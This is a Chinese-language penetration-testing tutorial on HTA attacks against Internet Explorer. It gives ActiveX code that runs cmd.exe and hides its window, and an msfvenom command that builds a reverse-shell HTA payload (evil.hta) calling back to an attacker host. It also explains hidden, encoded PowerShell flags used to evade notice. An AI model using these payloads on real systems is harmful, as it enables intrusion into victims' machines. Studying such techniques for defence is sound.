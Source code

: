 虽然这个攻击只对Internet Explorer和某种程度上的Microsoft Edge起作用，但它仍然有用，因为许多公司依赖Internet Explorer作为他们的主要浏览器。此外，这个攻击利用功能直接内置到Windows操作系统，更重要的是，它兼容不太安全的微软遗留web技术，如ActiveX。

### 探索HTML应用程序

与HTML页面类似，典型的HTML应用程序包括HTML、正文和脚本标记，后面跟着JavaScript或VBScript代码。然而，由于HTML应用程序是在浏览器之外执行的，所以我们可以自由地使用在浏览器中经常被阻止的遗留和危险的特性。

```
<html> <body>
<script>
    var c = 'cmd.exe' 
    new ActiveXObject('WScript.Shell').Run(c);
</script>
</body> </html>
```

用IE打开会出现下面的提示：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605929324226-a4521d65-6eea-4e1e-b42e-de0c64613c67.png)

有时也会出现警告：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605929351703-ecaf14cf-1895-413a-95d1-7e81c0a9967f.png)

然后此代码的效果就是打开一个cmd窗口：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605929376065-48ca13a0-8a28-4d2c-a12c-1d6f220b11ff.png)

但是会发现有一个残留窗口：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605929410618-4417746f-a3fc-48b8-8f7f-244c9cb01465.png)  如果不希望出现这个，我们在它执行完打开cmd之后，将其关闭。

```
<html> <body>
<script>
    var c = 'cmd.exe' 
    new ActiveXObject('WScript.Shell').Run(c);
</script>
<script>
    self.close(); 
</script>
</body> </html>
```

### HTA Attack in Action

我们将使用msfvenom将基本的HTML应用程序转化为攻击，依靠hta-psh输出格式创建基于PowerShell的HTA有效负载。在清单中，将生成完整的反向shell有效负载并保存到文件evil.hta。

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

我们通过cat命令查看一下文件的内容，可以看到变量名是随机的，然后PowerShell在使用时用了一些选项，第一个参数-nop是-NoProfile的简写，它指示PowerShell不要加载PowerShell用户配置文件。接下来，我们的脚本使用-w hidden (-WindowStyle hidden的简写)为了避免创建窗口在用户的桌面上。最后，极其重要的-e标志(-EncodedCommand的简写)允许我们直接提供Base64编码的349 PowerShell脚本作为命令行参数。
